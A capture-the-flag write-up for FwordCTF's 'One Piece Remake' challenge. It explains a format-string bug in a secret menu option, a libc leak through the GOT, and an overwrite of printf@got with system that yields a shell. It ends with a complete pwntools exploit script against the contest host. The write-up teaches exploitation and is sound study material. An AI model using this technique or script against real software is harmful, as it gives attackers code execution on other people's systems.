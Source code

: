 # One Piece Remake 

The binary has no protections except Partial RELRO.

The menu has 3 options besides exiting, one of which is secret.

We can read into a shellcode pointer, but only 5 bytes get read. We can execute said shellcode. This is all pretty much useless since 5 bytes of shellcode is not enough to do literally anything useful.

There's a secret option - gomugomunomi. It reads 100 bytes of input(no BOF) and then printfs it, allowing us to execute the classic format string exploit.

I tried to do the simple %p leak, but found no useful addresses on the stack. Instead, I used %s to read my buffer(offset 7, found through pwntools automation) as an address of a string in order to read got entries.

By doing gotaddress + %7$s we can leak got addresses to get a libc leak. We'll use libc-database find yet again to get the remote libc, libc6_2.30-0ubuntu2.2_i386

Then, we'll execute a got overwrite attack by overwriting printf@got with system. Next gomugomunomi, the input will be system'd, so we enter /bin/sh to get dropped into a shell.

But it's not over! On the remote, there is no cat. The solution to read flag.txt is simple - while read line; do echo $line; done < flag.txt

This reveals the flag.

1. gotaddress+ %7$s to leak libc
2. Format string overwrite to map printf to system
3. In gomugomunomi, send /bin/sh
4. Use while read line; do echo $line; done to read the flag file as cat is nonexistent

#### Flag: FwordCTF{i_4m_G0inG_t0_B3coM3_th3_p1r4Te_K1NG}
```py
from pwn import *
e = ELF("./remake")
libc = e.libc if args.LOCAL else ELF("/home/kali/Tools/libc-database/libs/libc6_2.30-0ubuntu2.2_i386/libc.so.6")
def getproc():
    return e.process() if args.LOCAL else remote('onepiece.fword.wtf', 1236)
def dofmt(data):
    p.sendline(b"gomugomunomi")
    p.recvuntil(b">>")
    p.sendline(data)
    output = p.recvline()
    p.recvuntil(b">>")
    return output
def write_fmt(data):
    proc = getproc()
    proc.recvuntil(b">>")
    proc.sendline("gomugomunomi")
    proc.recvuntil(b">>")
    proc.send(data)
    output = proc.recvline()
    proc.close()
    return output
auto = FmtStr(write_fmt)
p = getproc()
p.recvuntil(b">>")
string = b"/bin/sh\x00"
payload = p32(e.got['puts']) + b'%7$s'
output = dofmt(payload)[4:8]
libcleak = u32(output)
log.info(f"Libc leak: {hex(libcleak)}")
libcbase = libcleak - libc.symbols['puts']
log.info(f"Libc base: {hex(libcbase)}")
libc.address = libcbase
# Overwrite printf@got with system@GLIBC
payload = fmtstr.fmtstr_payload(auto.offset,{e.got['printf']: libc.symbols['system']})
p.sendline(b"gomugomunomi")
p.recvuntil(b">>")
p.sendline(payload)
p.clean()
p.sendline(b"gomugomunomi")
p.recvline()
p.sendline(b"/bin/sh")
p.interactive()
```

